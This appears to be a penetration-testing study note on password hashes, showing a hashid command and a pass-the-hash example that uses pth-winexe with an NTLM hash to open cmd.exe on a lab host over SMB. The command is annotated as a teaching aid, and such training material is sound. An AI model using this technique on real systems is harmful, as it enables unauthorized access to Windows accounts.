

## Password Hashes

To identify what type of hashing algorithm was used

```bash
hashid -j HASH
```

### Pass the Hash Attacks on Windows

Cracking hashes can be time consuming and require powerful hardware.



Passing the hash involves sending the username and password hash to the target rather than the plaintext password.  This is possible because of the lack of salting in the passwords.

Once a username and hash have been discovered, they can be used to authenticate on any system with that account/password combination.

This is done by leveraging a SMB share and converting the NTLM hash into a NetNTLM hash.  These hashes could also be gathered with man-in-the-middle attacks or poisoning attacks.

```bash
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.216.10 cmd.exe

# Options
offsec%		# Username with '%' delimiter
aad3b435b51404eeaad3b435b51404ee:	# This is a generic LM hash for "No Password" that must be included along with the ':' delimiter
2892d26cdf84d7a70e2eb3b9f05c425e	# This is the actual NTLM hash obtained for the user account
//192.168.216.10	# UNC path to SMB share
cmd					# Command to execute (cmd.exe in this case)
```

### Useful Links

https://www.puckiestyle.nl/pass-the-hash/

https://www.hackingarticles.in/multiple-ways-to-connect-remote-pc-using-smb-port/